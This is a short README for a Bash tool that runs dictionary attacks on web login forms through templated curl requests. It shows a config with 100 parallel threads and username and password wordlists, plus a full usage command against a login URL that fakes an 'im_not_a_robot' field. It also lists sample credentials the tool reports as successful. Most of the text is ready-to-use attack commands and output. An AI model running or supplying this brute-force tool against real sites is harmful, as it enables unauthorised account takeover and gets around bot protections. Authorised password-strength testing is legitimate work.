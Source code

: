# curl-request-dictionary-attack

Bash script to perform dictionary attacks on any request via simple template-like substitutions in complete curl manner.

## USAGE

```
% cp config.sh.sample config.sh && cat config.sh
max_threads=100
dict_fields=(
  "user_input" "./usernames.txt"
  "password_input" "./passwords.txt"
)
expect_grep_expr=("-i" "welcome")
```

`max_threads` - the maximum number of curl processes to spawn at a time

`dict_fields` - the template strings used in the command and which files to be used to read data to be put in place of those strings

`expect_grep_expr` - the grep command expression to expect when something interesting happens (in the example above the expression results in `grep -i "welcome"`)


```
./curl-request-dictionary-attack -skL -H "Referer: http://example.com/" --data "user={user_input}&password={password_input}&im_not_a_robot=1" "https://example.com/login"
```

whenever the `expect_grep_expr` does not return an empty string(based on the curl response) the entire curl arguments get printed out

```
-skL -H Referer: http://example.com/ --data user=admin&password=admin-password&im_not_a_robot=1 https://example.com/login
-skL -H Referer: http://example.com/ --data user=basic-user&password=12345&im_not_a_robot=1 https://example.com/login
```
